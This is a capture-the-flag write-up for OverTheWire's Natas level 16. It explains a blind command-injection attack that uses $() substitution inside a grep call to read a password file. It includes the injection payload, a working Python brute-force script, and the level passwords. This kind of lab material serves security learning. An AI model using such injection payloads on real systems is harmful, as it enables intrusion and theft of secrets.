

> Password is `TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V`.

> Password is in this file: 
```
/etc/natas_webpass/natas17
```

> Checking the source code: 



> We see whatever we input is placed inside qoutes, meaning anything we put is interpreted as text.
> Many of the special characters are blocked, only ones not blocked are `$` and `()`.

> What this implies is command substituion: executing a command and having its output replace the text of the command. 
```
$ echo "mins$(echo 123)"
> mins123
```

> We can use this to brute force the password using the `grep` command.
> Basically, if we enter into `key` a value present in `dictionary.txt`, we get an output, but if we dont get an output, then the value entered into `key` doesn't exist.

> We can use commad substitution to use this fact about `grep` commands, they return something if the value is present, and return nothing if value is not present.

> We can insert into `key` the following:
```
$(grep a /etc/natas_webpass/natas17)
```

> This transforms the injectable command to: 
```
grep -i <output-of-grep> dictionary.txt
```

1. If the `<output-of-grep>` is empty, this means `a` doesn't exist inside `/etc/natas_webpass/natas17`.
> Then the injectable command tries to fetch an empty string from `dictionary.txt`, meaning it returns everything found in `dictionary.txt`.

2. If the `<output-of-grep>` is not empty, this means `a` exists inside `etc/natas_webpass/natas17`, and `<output-of-grep>` IS the password we are looking for.
> Then the injectable command tries to fetch the value of the password from `dictionary.txt`, which we know isn't there. Therefore, it returns an empty output.

> Therefore, we can try a brute force attack, to look for all lowercase, upercase, and digit characters inside the substituted command. 
> We can do that by checking for the first character, and if we find that we dont return an output, then the first chatacer is correct, and we can search for the following character by concatenating it with the first one found. Using regular expressions with grep, we can check for the first character/characters of a line entry in a file.

> To test this out, we preprend a string that is present in `dictionary.txt` to the character we are trying, because it will be simpler than testing for the empty string and printing out all the entries in it.
> Let it be `Africans`. Therefore, if the substituted command works and we see that a character works, the subsituted command will return the password, and the injectable command will try looking for `Africans+password`, which will return nothing. But if the character fails, it will only look for `Africans`.

```python
import requests
import re
from string import *

auth_username = "natas16"
auth_password = "TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V"
url = "http://natas16.natas.labs.overthewire.org/"

session = requests.Session()

characters = digits + ascii_letters
password = ""

while len(password) < 32:
    for character in characters:
        print("Trying: " + password + character)
        response = session.post(url, data={"needle": "Africans$(grep ^" + password + character + " /etc/natas_webpass/natas17)"}, auth=(auth_username, auth_password))
        content = response.text
        if "Africans" not in content:
            password += character
            print("Password: " + password)
            break
```

> What this does is that uses regular expressions with `^` to look for characters at the beginning of an entry.
> If the substituted command, which is `grep ^character /etc/natas_webpass/natas17` finds a correct character at the beginning, it will try this same character and concatenate to it the next character to try, now looking for 2 characters, and so on.
> We stop when the password has 32 characters, since that is the length of the password.

> Running this script, we get the password.

```
natas17:XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd
```

---
